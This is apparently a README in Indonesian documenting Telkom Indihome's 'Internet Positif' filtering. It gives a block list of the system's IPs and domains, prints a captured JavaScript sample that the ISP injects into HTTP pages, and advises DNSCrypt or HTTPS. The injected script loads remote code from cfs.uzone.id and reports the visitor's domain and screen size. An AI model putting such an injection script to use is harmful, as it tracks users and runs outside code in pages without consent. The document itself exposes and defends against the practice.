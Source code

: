# Daftar IP Internet Positif Telkom Indihome
```
118.97.116.10
118.97.116.27
202.69.110.78
36.86.63.180
118.97.116.2
# kendedes.uzone.id
36.66.1.2
```
# Daftar DOMAIN Internet Positif Telkom Indihome
```
csf.uzone.id
cfs.uzone.id
kendedes.uzone.id
```

# Blokir /24
Range yang digunakan Internet Positif ada di 118.97.116.0/24 jadi mending blok semuanya ;)


# Script JS
contoh script yang di inject ke http
```
<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "cfs.uzone.id/2fn7a2/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHa6dUEiP6K%2fc5C582CL4NjpNgssKlLXmbTBE8IzDXCSPaiFHvyt8Q5fsYRny8X3ds6Lr7ToQwJBBAp5P%2bjKK12yr0FxrJb1ixNQVSm4FoVHOKcl3FNknXhjy%2bbVesNHJhD0cCTqdRhNvFS0F6iEXZjxMPE3QuLIQu%2frXcHuCJy3hLU4QFreC0HijsnOoLN%2ftyF0wyfyQL9NHY5W5Br2BHrjRKwDTSCJyVRi2MgeTRvJMZVrSHP%2fCKKzZJVTdtpmz9FQNiKCuhOcpWNNB2wEs1InhywhlXi%2bg%2fLs%2fI2ie5DhFiM%2fgiztMMQzXL11mHZirYErQELDIzGuYbIPcenKjW9OvxhUTTu%2bhOUc1nVkHoQAGhL0XfVqhaDPXofJbg9VGJdSA3sUnqqb%2fETChCJuhAL772tWxEYNBTEEb4lmYvGTg9WtXovN8WJhpghbYXxaRdpGeF77EkYtES3Fgvx3BJKDBSVCoLZ9Im4O5XCwtGWuPTsZfC8EiyYqCTAWPdaoqalbgI0gmD31qSGRwIq03O%2f2JQPFAx6bGaHg%3d%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script>
```
solusinya gunakan **DNSCrypt** atau bagi pemilik website gunakan SSL (https) biar ngga bisa di inject oleh telkom.
